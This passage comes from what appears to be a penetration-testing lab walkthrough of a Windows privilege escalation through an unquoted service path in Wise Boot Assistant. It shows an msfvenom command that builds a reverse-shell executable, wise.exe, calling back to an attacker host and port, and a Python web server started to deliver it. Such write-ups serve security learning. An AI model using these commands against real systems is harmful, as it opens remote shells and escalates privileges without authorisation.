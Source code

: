 ~~~
   =================================================================================================

~~~
It looks like there is an " Unqoute Service Path" vulnerability at the Wise Boot Assistent.

Now it is time to create a reverse shell payload with msfvenom. The output I will save to "wise.exe". This is the file name which the service is looking for, so I only have to transfer this file to the target and place it in the first directory where it will look for the file.
~~~
┌──(emvee㉿kali)-[~/transfer]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.4 LPORT=9876 -f exe -o wise.exe   
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: wise.exe
~~~
To transfer the file to the target I start a python3 webserver. This makes it possible to download my payload.
~~~
┌──(emvee㉿kali)-[~/transfer]
└─$ sudo python3 -m http.server 80                                                             
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
